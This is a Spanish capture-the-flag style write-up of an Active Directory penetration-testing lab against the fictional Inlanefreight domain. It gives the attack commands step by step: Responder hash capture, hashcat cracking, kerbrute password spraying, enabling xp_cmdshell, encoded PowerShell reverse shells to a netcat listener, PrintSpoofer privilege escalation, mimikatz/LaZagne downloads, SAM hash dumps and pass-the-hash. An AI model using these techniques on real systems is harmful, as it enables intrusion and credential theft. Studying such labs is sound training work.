










Laboratorio de Enumeración y ataques de AD - Parte 2
Enunciado
Nuestro cliente, Inlanefreight, nos ha contratado de nuevo para realizar una prueba de penetración interna completa. El cliente busca encontrar y corregir el mayor número posible de fallos antes de iniciar un proceso de fusión y adquisición. El nuevo CISO está especialmente preocupado por los fallos de seguridad de AD más sutiles que podrían haber pasado desapercibidos en pruebas de penetración anteriores. El cliente no se preocupa por tácticas sigilosas o evasivas y, además, nos ha proporcionado una máquina virtual Parrot Linux dentro de la red interna para obtener la mejor cobertura posible de todos los ángulos de la red y del entorno de Active Directory.
Conéctese al host de ataque interno mediante SSH (también puede conectarse xfreerdpcomo se muestra al principio de este módulo) y comience a buscar una posición de entrada en el dominio. Una vez establecida, enumere el dominio y busque fallos que puedan utilizarse para actuar lateralmente, escalar privilegios y comprometer el dominio.
Reconocimiento
Nos conectamos por ssh a la máquina que nos proporciona Inlanefreight y a partir ahí empezamos el reconocimiento.
Vemos las interfaces de red.

Hacemos ping para ver la ip del Domain Controller.

Tenemos como dominio inlanefreight.local
Como DC 172.16.7.3
Obtenga el hash de la contraseña de una cuenta de usuario del dominio que pueda utilizarse para restablecerse en el dominio. ¿Cuál es el nombre de la cuenta? Ejecutamos el Responder:
sudo responder -I ens224

Y vemos que nos pone que capturó un hash del usuario AB920
 Leemos el log del responder.
Leemos el log del responder.
cat /usr/share/responder/logs/SMB-NTLMv2-SSP-172.16.7.3.txt
¿Cuál es la contraseña de texto simple de este usuario?
cat /usr/share/responder/logs/SMB-NTLMv2-SSP-172.16.7.3.txt

Copiamos un hash y nos lo traemos a local para decifrarlo
hashcat -m 5600 hash1.txt /usr/share/wordlists/rockyou.txt

Envíe el contenido del archivo C:\flag.txt en MS01.
Tenemos el usuario y contraseña AB920:weasal
Realizamos un escaneo de la red para detectar el MS01.
namp -sn 172.16.7.240/23
 Dentro de esta subred tenemos las IPs
Dentro de esta subred tenemos las IPs 172.16.7.50, 172.16.7.60, 172.16.7.240.
Hacemos otro escaneo más detallado:
nmap -sS -sV -O -Pn 172.16.7.50 172.16.7.60 172.16.7.240
 Comprobamos el nombre de la máquina con
Comprobamos el nombre de la máquina con ntbscan:
ntbscan <IP>

Con las credenciales que tenemos intentamos acceder al MS01.
evil-winrm -i 172.16.7.50 -u AB920 -p weasal
 Ahora solo nos movemos al directorio de la flag.
Ahora solo nos movemos al directorio de la flag. C:\flag.txt
Utilice un método común para obtener credenciales débiles de otro usuario. Envíe el nombre de usuario del usuario cuyas credenciales obtenga.
Vamos a enumerar los usuarios desde el DC y exportarlos a un archivo.
sudo crackmapexec smb 172.16.7.3 -u 'ab920' -p 'weasal' --users | tee usernames.txt
 Nos quedamos solo con los usuarios.
Nos quedamos solo con los usuarios.
cat usernames.txt | awk '{print $5}' | grep 'INLANEFREIGHT.LOCAL' | awk -F'\\\\' '{print $2}'
Utilice un método común para obtener credenciales débiles de otro usuario. Envíe el nombre de usuario del usuario cuyas credenciales obtenga.
Hacemos rociado de contraseñas con Welcome1 con la lista de usuarios que tenemos.
kerbrute passwordspray -d inlanefreight.local --dc 172.16.7.3 users.txt Welcome1
 Y vemos que para el usuario
Y vemos que para el usuario BR086 es válida dicha contraseña.
Localice un archivo de configuración que contenga una cadena de conexión MSSQL. ¿Cuál es la contraseña del usuario que aparece en este archivo?
Tenemos usuario BR086:Welcome1
Estamos buscando un archivo de configuración.
Intentamos mostrar los archivos compartidos desde el DC
smbclient -L \\\\172.16.7.3 -U br086
 Y vemos una carpeta que nos llama la atención.
Entramos con dicho usuario:
Y vemos una carpeta que nos llama la atención.
Entramos con dicho usuario:
smbclient '//172.16.7.3/Department Shares' -N U br086
Y vemos una serie de recursos compartidos. Empezamos a buscar.

Tenemos esto:
 Nos lo descargamos
Nos lo descargamos
get web.config
Y lo revisamos en la máquina pivote.
 Y vemos un usuario
Y vemos un usuario netdb:D@ta_bAse_adm1n!
Envíe el contenido del archivo flag.txt en el Escritorio del administrador en el host SQL01.
Debemos recordar que anteriormente cuando escaneamos la red descubrimos que el host MS01 era 172.16.7.50 y que el host SQL01 era el 172.16.7.60. Vamos a trabajar con este último.
Nos conectamos al host por mssql dado que es un servidor con una base de datos de microsoft.
mssqlclient.py -dc-ip 172.16.7.3 INLANEFREIGHT/netdb:'D@ta_bAse_adm1n!'@172.16.7.60
Vemos que tenemos acceso sin embargo no tenemos permisos para leer la flag que se encuentra en el path de Administrator.
Habilitamos el xp_cmdshell para poder ejecutar comando en el servidor a través de SQL:
enable_xp_cmdshell;

Cuando revisamos la información de los permisos del usuario:
exec xp_cmdshell 'whoami/priv'
 Al tener permisos de Impersonate habilitados podemos explotar la vulnerabilidad de
Al tener permisos de Impersonate habilitados podemos explotar la vulnerabilidad de PrintSpoofer, donde nos permite pasar a root del sistema.
Repositorio de PrintSpoofer
Por un lado tenemos la sesión mssql en SQL01 donde ejecutamos comandos en el servidor y por otro lado tenemos nuestra máquina pivote.
Lo que vamos a hacer es lanzarnos una reverse shell desde la sesión SQL01 a nuestra máquina pivote donde podamos ejecutar comandos más comodos.
 Nos ponemos en escucha en nuestra máquina pivote:
Nos ponemos en escucha en nuestra máquina pivote:
nc -nlvp 1111
Lanzamos la reverse shell y tenemos ejecucion de comandos en SQL01.
xp_cmdshell "powershell -e JAK...CkA"
 Luego nos copiamos el ejecutable de PrintSpoofer de la pivote para
Luego nos copiamos el ejecutable de PrintSpoofer de la pivote para SQL01, Abrimos una 3ra sesión y conectandonos por ssh al pivote.
 Nos lo descargamos a local, luego desde local, lo copiamos al pivote
Nos lo descargamos a local, luego desde local, lo copiamos al pivote
scp -r PrintSpoofer.exe htb-student@<IP>:~/Downloads
#Password
Y desde el pivote lo copiamos a SQL01, hacemos un simple servidor web.
python -m http.server
Desde SQL01 nos lo descargamos, debemos situarnos en un directorio que tengamos permisos de escritura, C\Users\Public por ejemplo:
Invoke-WebRequest -Uri http://172.16.7.240:8000/PrintSpoofer.exe -OutFile .\PrintSpoofer.exe
Invoke-WebRequest -Uri http://172.16.7.240:8000/PrintSpoofer64.exe -OutFile .\PrintSpoofer64.exe

Posteriormente ejecutamos el archivo y preparamos una reverseshell hacia nuestro pivote donde la vamos a recibir con privilegios de SYSTEM. Esta vez por otro puerto.
 Luego nos ponemos en escucha desde el pivote
Luego nos ponemos en escucha desde el pivote
nc -nlvp 3434
Y ejecutamos el PrintSpoofer.exe desde SQL01 tal que así
.\PrintSpoofer.exe -i -c "powershell JAB...Br"

Ya solo nos movemos a la ruta desedada C:\Users\Administrator\Desktop\flag.txt

Envíe el contenido del archivo flag.txt en el Escritorio del administrador en el host MS01.
Para el host MS01 tenemos:
IP 172.16.7.50
Usuario y contraseña AB920:weasal
LaZagne.exe
Obtenemos:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:136b3ddfbb62cb02e53a8f661248f364::: Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:4b4ba140ac0767077aee1958e7f78070:::
evil-winrm -i 172.16.7.60 -u Administrator -H 136b3ddfbb62cb02e53a8f661248f364
Obtenemos la flag.
Invoke-WebRequest -Uri http://172.16.7.240:8000/PowerView.ps1 -OutFile .\PowerView.ps1
Invoke-WebRequest -Uri http://172.16.7.240:8000/Inveigh.ps1 -OutFile .\Inveigh.ps1
Invoke-WebRequest -Uri http://172.16.7.240:8000/LaZagne.exe -OutFile .\LaZagne.exe
Invoke-WebRequest -Uri http://172.16.7.240:8000/mimikatz.exe -OutFile .\mimikatz.exe
Get-DomainUser -Identity Administrator | Get-DomainSPNTicket -Format Hashcat
136b3ddfbb62cb02e53a8f661248f364
Obtenga las credenciales de un usuario con permisos genéricos en el grupo Administradores del dominio. ¿Cuál es el nombre de la cuenta de este usuario? PowerView Cheatsheet
Accedemos por ssh a nuestra máquina pivote, le aplicamos un redirecionamiento de puertos mediante proxychains.
ssh htb-student@<IP> -D 9050
#Password
Vamos a copiar desde nuestra máquina atacante la herramienta PowerView.ps1 hacia nuestro pivote.
scp -r PowerView.ps1 htb-student@<IP>:~/Downloads
 Mediante nuestra sesión de ssh vamos al directorio Downloads y servimos un servidor web para compartir la herramienta con
Mediante nuestra sesión de ssh vamos al directorio Downloads y servimos un servidor web para compartir la herramienta con 172.16.7.50
python -m http.server 8080
Luego desde nuestra máquina atacante nos vamos a conectar a 172.16.7.50 con el las credenciales que obtuvimos al principio.
proxychains xfreerdp3 /v:172.16.7.50 /u:br086 /p:'Welcome1' /dynamic-resolution
 Nos descargamos la herramienta desde
Nos descargamos la herramienta desde powershell
Invoke-WebRequest -Uri http://172.16.7.240:8080/PowerView.ps1 -OutFile .\PowerView.ps1
 Importamos la herramienta:
Importamos la herramienta:
import-module .\PowerView.ps1
Y buscamos por el grupo Domain Admins que es por el que nos están preguntando:
Get-DomainGPO -Identity "Domain Admins"
ConvertTo-Sid "Domain Admins"

Get-DomainObjectAcl -Identity "S-1-5-21-3327542485-274640656-2609762496-512" -ResolveGUIDs |? {$_.ActiveDirectoryRights -eq "GenericAll"}

S-1-5-21-3327542485-274640656-2609762496-4611
Ahora que tenemos el Identificador de usuario lo convertimos llevamos a nombre normal.
Convert-SidToName "S-1-5-21-3327542485-274640656-2609762496-4611"

CT059
Si te sirvió de algo este tutorial ya para mi es más que suficiente, si me puedes decir en que podemos mejorar te lo voy a agradecer un montón.
Escríbeme por cualquiera de las vías